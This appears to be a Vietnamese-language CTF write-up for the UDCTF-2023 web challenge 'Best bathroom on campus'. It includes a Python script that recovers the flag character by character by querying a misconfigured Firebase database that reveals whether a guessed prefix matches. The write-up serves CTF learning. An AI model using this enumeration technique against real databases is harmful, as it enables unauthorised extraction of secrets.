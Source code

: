 ```yaml
---
title: Write-Up Best bathroom on campus
date: 2023-10-4 7:55:00 +0700
categories: [CTF, UDCTF-2023, Write-Up]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
---
```

# Best bathroom on campus

<img src="/assets/writeup/cookie/Best bathroom on campus e086b9d3d3ca4b8d8d0e25e09d83d1cd/Untitled.png">
- Truy cập vào trang web ta thấy như sau, ta thấy khi giá trị UDCTF được truyền vào thì trả về giá trị là true.

<img src="/assets/writeup/cookie/Best bathroom on campus e086b9d3d3ca4b8d8d0e25e09d83d1cd/Untitled 1.png">

- Mình thử test format flag là UDCTF{ thì vẫn trả về true, có vẻ như bài này ta chỉ cần nhập vào chuỗi nằm trong flag thì sẽ trả về true, không thì sẽ là false, lúc này thì mình sẽ code python để tự động hóa

<img src="/assets/writeup/cookie/Best bathroom on campus e086b9d3d3ca4b8d8d0e25e09d83d1cd/Untitled 2.png">

```python
import requests

url = 'https://best-bathroom-default-rtdb.firebaseio.com/flag/'

arr = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'!$%()*+,-.:;@[]^_`{|}~"
# arr = "$%&'()*+,-./:;<=>?@[]^_`{|}~"
result = 'UDCTF{'

while True:
  for char in arr:
    print(f"Testing with {result + char}")
    
    test_url = url + result + char + '.json' 
    response = requests.get(test_url)
    
    if response.text.find('true') != -1:
      result += char
      print(f"Found character: {char}")
      print(f"Result: {result}")
      break

    if char == '}':
      print("Final flag:", result)
      exit()

  print("Start over with full arr")
```

<img src="/assets/writeup/cookie/Best bathroom on campus e086b9d3d3ca4b8d8d0e25e09d83d1cd/Untitled 3.png">
